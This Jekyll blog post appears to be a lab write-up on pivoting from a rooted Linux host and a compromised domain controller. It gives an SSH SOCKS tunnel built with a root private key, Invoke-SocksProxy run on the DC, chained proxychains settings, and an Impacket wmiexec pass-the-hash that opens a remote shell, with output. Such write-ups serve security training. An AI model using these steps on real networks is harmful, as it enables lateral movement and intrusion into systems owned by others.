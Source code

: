 ```yaml
---
layout: post
title:  "Pivoting In A Linux + Windows Env"
date:   2019-10-18 10:03:00 +0100
categories: jekyll update
---
```


Scenario: I had rooted a linux box and used it to compromise other machines including a DC. And now I wanted to use that DC to go deeper into the network.

What I wanted to achieve:

```
+--------+     +-----+    +--+
|attacker+---->+Linux+--->+DC|
+--------+     +-----+    +--+
                          |
                          |
                          v
                        +--------------+
                        |Access to more|
                        |Things in the |
                        |Network       |
                        +--------------+
```

I was already pivoting on the Linux box, now I wanted to do the same on the DC.

## Pivoting on The Linux Box

### On Our Attacking Machine
I already had the private key for the root account, so I connected and setup dynamic port forwarding (setting up a socks proxy basically) over port 9000:

`ssh -i ~/.ssh/keys/key1 -D 9000 -Nf root@10.10.110.126`

modify /etc/proxychains.conf to include the linux box:

{% highlight bash %}
[ProxyList]
### For Lab:
socks4 127.0.0.1 9000 
{% endhighlight %}

And thats it, now prefix any command you need to be proxied through the linux box with `proxychains`.

## Pivoting on The Windows Machine
I used the following powershell script to setup a socks proxy on the windows machine (DC): https://github.com/p3nt4/Invoke-SocksProxy

### On The DC:

Drop the script `Invoke-SocksProxy.psm1` from the repo on the windows machine. And run it.
In this scenario I ran the socks proxy on port 9000, note that I am a Domain Admin:

{% highlight bash %}
PS C:\users\humoud\Documents> Import-Module .\Invoke-SocksProxy.psm1
PS C:\users\humoud\Documents> Invoke-SocksProxy -bindPort 9000
Listening on port 9000...
New Connection from  172.16.1.221:36328
Threads Left: 199
New Connection from  172.16.1.221:36330
Threads Left: 199
New Connection from  172.16.1.221:36332
Threads Left: 198
New Connection from  172.16.1.221:36334
Threads Left: 197
{% highlight bash %}

### On Our Attacking Machine (Kali):
Now, we need to configure proxychains on our attacking machine.

modify /etc/proxychains.conf:

{% highlight bash %}
[ProxyList]
### For Lab:
socks4 127.0.0.1 9000   # For the Linux Box, already there
socks4 172.16.1.2 9000  # Windows Box (DC1) <added this>
{% endhighlight %}

### Testing:
Time to test the setup, run a command prefixed with `proxychains`.
Here I ran wmiexec from Impacket, attempted to pass-the-hash and it succeeded:

{% highlight bash %}
# proxychains wmiexec.py -hashes :some_hash_here_:) administrator@172.16.2.3
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation

|S-chain|-<>-127.0.0.1:9000-<>-172.16.1.2:9000-<><>-172.16.2.3:445-<><>-OK
[*] SMBv3.0 dialect used
|S-chain|-<>-127.0.0.1:9000-<>-172.16.1.2:9000-<><>-172.16.2.3:135-<><>-OK
|S-chain|-<>-127.0.0.1:9000-<>-172.16.1.2:9000-<><>-172.16.2.3:49666-<><>-OK
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
{% endhighlight %}

